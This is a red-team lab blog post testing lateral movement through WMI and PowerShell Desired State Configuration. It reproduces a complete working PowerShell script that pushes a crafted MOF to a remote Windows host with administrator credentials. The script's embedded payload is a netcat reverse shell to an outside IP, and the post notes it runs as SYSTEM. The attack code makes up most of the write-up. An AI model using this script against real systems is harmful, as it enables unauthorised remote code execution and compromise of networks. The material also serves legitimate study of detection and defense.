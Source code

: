 ```yaml
---
layout: post
title: "wmi + powershell desired state configuration lateral movement"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-+-powershell-desired-state-configuration-lateral-movement/
---
```


---
layout: post
title: "wmi + powershell desired state configuration lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-+-powershell-desired-state-configuration-lateral-movement/
---

---
description: Lateral Movment, Privilege Escalation
---

# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell (luckily, we know the victim has nc on their machine :):

{% code title="dsc.ps1" %}
```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
	ResourceID = "[Script]ScriptExample";
	GetScript = "\"$(Get-Date): I am being GET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
	SetScript = "\"$(Get-Date): I am being SET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	SourceInfo = "::3::5::Script";
	ModuleName = "PsDesiredStateConfiguration";
	ModuleVersion = "1.0";
	ConfigurationName = "ScriptTest";
};
 
instance of OMI_ConfigurationDocument
{
	Version="2.0.0";
	MinimumCompatibleVersion = "1.0.0";
	CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
	Author="TestUser";
	GenerationDate="02/26/2018 07:09:21";
	GenerationHost="TestHost";
	Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True
 
$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)
 
if ($ExecuteRemotely) {
	# Prepend the length of the payload
	[Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
	# If executing locally, you do not prepend the payload length
	[Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'
 
# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential
 
$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession
 
if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
	# You may now proceed with lateral movement
 
	$MethodArgs = @{
    	ModuleName   	= 'PSDesiredStateConfiguration'
    	ResourceType 	= 'MSFT_ScriptResource'
    	resourceProperty = $MOFBytes
	}
 
	$Arguments = @{
    	Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
    	ClassName  = 'MSFT_DSCLocalConfigurationManager'
    	MethodName = 'ResourceTest'
    	Arguments  = $MethodArgs
    	CimSession = $RemoteCIMSession
	}
 
	# Invoke the DSC script resource Test method
	# Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
	Invoke-CimMethod @Arguments
 
} else {
	Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```
{% endcode %}

The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:

![](<../../.gitbook/assets/Peek 2018-11-01 21-48.gif>)

## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:

![](<../../.gitbook/assets/Screenshot from 2018-11-01 22-00-51.png>)

## References

{% embed url="https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06" %}
@spotheplanet

